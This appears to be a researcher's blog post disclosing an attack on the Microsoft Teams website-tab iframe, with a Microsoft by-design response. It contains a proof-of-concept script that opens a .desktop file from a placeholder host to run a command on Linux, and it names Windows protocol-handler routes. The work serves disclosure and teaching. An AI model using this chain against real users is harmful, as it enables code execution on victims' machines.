```yaml
---
layout: post
title:  "Microsoft Teams Vulnerabilities and Features!"
description: Lets talk about Microsoft Teams and Iframes!
tags: Research
---
```

# Microsoft Teams ~~Vulnerabilities~~ Features! 

In this article, I will gonna talk about research that me and my friends [Bigous], [Waid], and [Bee] made in Microsoft Teams a few time ago. This research, although it did not become a bounty, was a very interesting experience that taught us a lot about researching hardened software.

## Iframe
The Iframe, how it works, and the possible vulnerabilities that we can find in this tag is the main part of this entire research. 

While looking for interesting features in the application, we've got the feature of adding websites to add a site for other users to see. So, we decided to take a look into this iframe code:
```html
<iframe ng-if="ctrl.frame && ctrl.frame.type == 'iframe' && ctrl.frame.ready" ng-class="{'embedded-iframe-loading': ctrl.showLoadingIndicator}" title="" class="embedded-iframe embedded-page-content" name="embedded-page-container" sandbox="allow-forms allow-modals allow-popups allow-popups-to-escape-sandbox allow-pointer-lock allow-scripts allow-same-origin allow-downloads" allow="geolocation *; microphone *; camera *; midi *; encrypted-media *" data-tid="embeddedPageContainerIframe" acc-tabbable="true" allowfullscreen="" src="//website.com"></iframe>
```
As you can see, this iframe has a few interesting attributes, being the most interesting: 
- The allow attribute with the values "geolocation *; microphone *; camera *; midi *; encrypted-media *"
- The sandbox attribute with the value "allow-popups-to-escape-sandbox"

So, let's talk about what each of these attributes does exactly.

![](https://i.imgur.com/uLq35b4.png)

## The allow attribute
Now, if you are not a web developer you are possibly wondering what the allow attribute does. This specifies a resource policy for the iframe, i.e., it specifies which permissions can be passed from the scope of the parent site to the iframe.

As said before we can abuse the allow attribute: `allow="geolocation *; microphone *; camera *; midi *; encrypted-media *"` to gain access to the browser APIs. The problem is that when a site inside the iframe asks for authorization to access these devices, the authorization request comes from 'teams.microsoft.com', not from the iframe's website, usually by using Teams calls the user has already given these authorizations, so a site inside the iframe can have access to those APIs without permission.

![](https://i.imgur.com/awKK3r3.png)

## The sandbox attribute

The sandbox attribute has the value “allow-popups-to-escape-sandbox” set, which means that we can use popups out of the iframe scope, enabling us to escape the sandbox! The popups can be called with the function window.open(), this basically will open another tab in the Teams scope, but this can't only be used to open common URLs, we can use it to open up other applications instead of the system’s default browser eg: calculator://, mailto://, ms-word://... This could be very interesting since the desktop application uses electron. We can also try to manipulate the DOM and try to do some tricks like seen [here][ms-teams-rce], but we are "blocked" from accessing the DOM, limiting a lot the attack surface. 

### URI schemas

The first thing I think in this type of attack exploring URI schemas is to try to use the file:// protocol, and that's what we tried as soon we realized this possible attack vector, and obviously that doesnt work, this protocol was blocked in the electron, so we need try for another way. Another really cool idea is to use the smb:// protocol to possibly get RCE in the victim or to steal him NTLM hash, but that's disabled too.

After a few time researching about URI protocol schemas, we've found [this article][positive-security], I really recommend that you read it, because that shows us a lot of tricks to use in situations like this.

### RCE on Linux?

From the cited article, the idea of using xdg-open to call a remote .desktop, thus executing code on the victim’s machine seemed like a very interesting one, and that is what we did. So, when our victim access the application part with the Iframe, we’ve successfully achieved Remote Code Execution (in a good part of linux distros).

When we use window.open() pointing to some website with a ‘.desktop’ file, it gets executed, running the command described in the file, for the PoC, we just used the gnome-calculator command, that in a real scenario, could be a malicious Linux command.

![](https://i.imgur.com/QguuccH.png)

Code used in Website:
```htmlembedded=
<script>
window.open('https://yourwebsite.com/poc.desktop')
</script>
```

"poc.desktop" contents:
```htmlembedded=
Desktop Entry]
Version=1.0
Type=Application
Name=RCE
Comment=
Exec=gnome-calculator
Icon=
Path=
Terminal=false
StartupNotify=false
```

### And on Windows?

For obvious reasons the xdg-open will not work in Windows, so we need a different approach to get RCE in it. Unfortunately, we have tried everything on Windows, but we didn't find anything that can lead to a 0 click RCE on Microsoft Teams running on Windows.

But we can already get Remote Code Execution by exploiting vulnerabilities in third-party applications, like [this vulnerability in steam's protocol][steam], [this vulnerability in WinSCP][winscp], or even the CVE 2021-40444 in Microsoft Word.

And we can also use Click-Once applications with 'microsoft-edge://' protocol to get a 1 click RCE, but I will not go deeper into this.

# Microsoft's response

After about a month that we’ve contacted Microsoft, they’ve sent us an email with the following message:

In this case this would be by design functionality. The users are allowed to load external content in that location as a feature. The inability to access the DOM limits the actions of the attacker. We do note, that the window could be clearer in starting that it is external content, and we have forwarded this information over to the product's functional team for review for future versions. For now we are closing this case out as this is currently how this function is intended to work.

# Conclusion

Although Microsoft says it doesn't see this as a security issue, it was a very fun, and very unusual, learning experience that forced me to study a widely used and hardened application.


# References:
1. https://positive.security/blog/url-open-rce
2. https://0x00sec.org/t/using-uri-to-pop-shells-via-the-discord-client/11673
3. https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml
4. https://github.com/oskarsve/ms-teams-rce
5. https://docs.microsoft.com/visualstudio/deployment/publishing-clickonce-applications

[ms-teams-rce]: https://github.com/oskarsve/ms-teams-rce
[positive-security]: https://positive.security/blog/url-open-rce
[steam]: http://revuln.com/files/ReVuln_Steam_Browser_Protocol_Insecurity.pdf
[winscp]: https://nvd.nist.gov/vuln/detail/CVE-2021-3331
[Bee]: https://twitter.com/beescoitu
[Bigous]: https://github.com/viniciuspereiras
[Waid]: https://www.linkedin.com/in/ACoAACILYjIBue2VopRJbGxwsX2BzlJnboWApzk?lipi=urn%3Ali%3Apage%3Ad_flagship3_detail_base%3BavCQnqHaQUCkEBYl69SotQ%3D%3D